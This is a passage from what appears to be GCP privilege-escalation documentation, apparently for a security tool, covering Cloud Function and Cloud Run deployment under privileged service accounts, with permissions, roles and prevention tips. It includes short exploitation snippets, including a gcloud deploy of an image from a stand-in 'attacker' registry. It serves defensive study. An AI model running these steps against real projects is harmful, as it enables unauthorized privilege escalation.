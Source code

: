 #### 4. Cloud Function Deployment (`CAN_DEPLOY_FUNCTION_AS`)
**Risk Score**: high (see risk thresholds in config)

**Description**: Deploy cloud functions that execute with a privileged service account.

**Required Permissions**:
- `cloudfunctions.functions.create`
- `iam.serviceAccounts.actAs`

**Common Roles**:
- `roles/cloudfunctions.admin`
- `roles/cloudfunctions.developer` + SA access

**Exploitation**:
```python
# malicious_function.py
import google.auth
import googleapiclient.discovery

def exploit(request):
    credentials, project = google.auth.default()
    service = googleapiclient.discovery.build('cloudresourcemanager', 'v1')
    # Perform privileged actions
    return "Exploited"
```

```bash
# Deploy function
gcloud functions deploy exploit \
  --runtime python39 \
  --trigger-http \
  --service-account=privileged-sa@project.iam.gserviceaccount.com
```

**Prevention**:
- Restrict function deployment permissions
- Use dedicated SAs with minimal permissions
- Enable VPC Service Controls
- Monitor function deployments

#### 5. Cloud Run Deployment (`CAN_DEPLOY_CLOUD_RUN_AS`)
**Risk Score**: high (see risk thresholds in config)

**Description**: Deploy Cloud Run services that execute with privileged permissions.

**Required Permissions**:
- `run.services.create`
- `iam.serviceAccounts.actAs`

**Common Roles**:
- `roles/run.admin`
- `roles/run.developer` + SA access

**Exploitation**:
```bash
# Deploy malicious container
gcloud run deploy malicious-service \
  --image=gcr.io/attacker/malicious:latest \
  --service-account=privileged-sa@project.iam.gserviceaccount.com \
  --allow-unauthenticated
```
